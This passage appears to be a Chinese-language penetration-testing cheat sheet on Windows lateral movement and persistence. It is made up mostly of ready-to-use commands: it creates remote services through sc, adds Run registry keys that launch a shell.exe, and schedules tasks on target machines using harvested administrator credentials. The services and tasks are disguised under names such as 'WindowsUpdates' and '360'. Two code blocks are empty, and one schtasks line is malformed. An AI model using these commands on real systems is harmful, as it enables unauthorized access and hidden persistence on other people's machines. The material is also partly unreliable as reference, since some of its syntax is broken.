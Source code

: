 #### 计划任务

schtasks

```

```

at

```

```

#### 启动服务

```
# 创建一个服务
sc \\target_ip create WindowsUpdates binPath= "cmd.exe /c start net user"
# 执行和删除
sc \\target_ip start WindowsUpdates
sc \\target_ip delete WindowsUpdates

# 指定administrator账户创建一个 adminsec 的服务
sc \\target_ip create adminsec binPath= "c:\shell.exe" obj="adminsec\administrator" password= adminsec

sc \\target_ip start adminsec
```

## 维权

### 注册表启动项

```
# 查看当前的启动项
REG query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# 添加一个启动项
REG add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v [启动名字] /d "C:\Windows\Temp\shell.exe" /f

# 删除启动项
REG delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v [启动名字] /f
```

### Windows计划任务

利用前提

1. 必须通过其他手段拿到本地或者域管理账号密码
2. 若在横向渗透过程中，要保证当前机器能netuse远程到目标机器上
3. 目标机器开启了taskscheduler服务

```
#远程
schtasks /create /s target_ip /u "administrator" /p "password" /RL HIGHEST /f /tn "windowsUpdate" /windows/tmp/bit.txt /sc DAYLY /mo 1 /ST 20:15  ??

# 本地
schtasks /create /tn "360" /tr C:\Windows\Temp\360.exe /sc DAILY /st 10:00

# 查找
schtasks /query /s target_ip /U "administrator" /P "password" | findstr "windowsUpdates"

# 删除
schtasks /delete /F /tn WindowsUpdates /s target_ip /U "administrator" /P "password" 
```
